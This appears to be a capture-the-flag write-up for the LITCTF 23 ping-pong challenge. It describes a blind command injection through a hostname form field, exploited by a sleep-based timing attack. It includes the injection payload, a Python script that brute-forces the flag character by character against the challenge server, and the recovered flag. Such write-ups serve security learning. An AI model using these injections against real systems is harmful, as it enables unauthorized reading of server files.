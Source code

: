 # LITCTF 23

LITCTF 23 code + writeup

so basically
for ping pong undermaintance
if u look at the source code
u realize that the function to excute a command is also called
this means we can still use command injection
however looking at how the page is rendered
we see that no output from the excuted command will be printed
this means we must use some other way to get information
at first i thought that i could modify the html to add the flag into the bottom
this way
the flag would render at the bottom of the screen
however i believe some commands are blocked such as rm as it would ruin the infrastructure

after a lot of thinking and testing
i found that the sleep command works
and causes the page longer to load results
this means that a timing attck is possible

so we must find a way to set different times for testing if a string is in the flag or not
we can use the payload

```bash
grep LITCTF{text flag.txt || sleep $?
```

using this commmand we also avoid using url encoded character which would not work in our command

testing this command out we can see that a proper prefix such as LITCTF causes the website to load almost instantly
however if we dont use a substring such at adsklfjhlkasjdfhkl it would cause the website to take over a second to load

now that we have this command 

we can test the prefix one character at a time

setting up a python program we can send post request to the website testing the prefixes
finding which character takes the least amount of time
appending that to the known prefix and then testing the next character
we end this once we get the closing brace

and here is the python script to send injections 

```py
import requests
import string

charlist = string.ascii_lowercase+string.digits+"_}"
print(charlist)


text = "LITCTF{"

url = 'http://34.130.180.82:59880/'

headers = {
    'Host': url,
    # 'Content-Length': '11',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'Origin': url,
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Referer': url,
    # 'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'en-US,en;q=0.9',
    'Connection': 'close',
}

data = {
    'hostname': 'hi',
}



while True:
    ti = dict();
    for x in charlist:
        ti[x] = 0

    for x in charlist:
        teststr = text+x
        injection = f";grep -q {teststr} flag.txt || sleep $(($?*1))"
        data = {'hostname': injection}
        req = requests.post(url, headers=headers, data=data)
        print(teststr,req.elapsed.total_seconds())
        ti[x] = req.elapsed.total_seconds()
    
    bestchr = ""
    besttime = 1000
    for x in charlist:
        if(ti[x] < besttime):
            besttime = ti[x]
            bestchr = x
    text+=bestchr
    print(text)
    if(bestchr == '}'): break

```

after a while of using this program
I was able to retrieve the flag

```txt
LITCTF{c4refu1_fr}
```

YOUR DID IT :D